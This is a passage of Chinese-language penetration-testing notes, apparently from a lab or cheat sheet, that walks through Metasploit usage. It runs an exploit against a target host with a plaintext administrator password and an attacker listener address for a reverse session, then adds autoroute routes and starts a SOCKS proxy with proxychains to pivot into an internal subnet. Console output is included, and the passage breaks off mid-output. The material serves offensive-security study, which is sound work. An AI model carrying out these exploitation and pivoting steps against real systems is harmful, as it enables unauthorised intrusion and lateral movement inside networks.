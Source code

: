 ```
set rhosts 172.19.19.70 
set username administrator 
set password Infinit3 
set lhost 172.19.19.18 
exploit
```
- 直接建立Port Forwarding
```
run post/multi/manage/autoroute OPTION=s 
run autoroute -p 
background
```
## 透過Metasploit 建立SOCKS Proxy
>  proxychains.conf 還是要設定好

- proxychains.conf設定
```shell-session
socks4 	127.0.0.1 9050
```
### 設定Socks Proxy
```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```
### 把網段加入autoroute
```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
```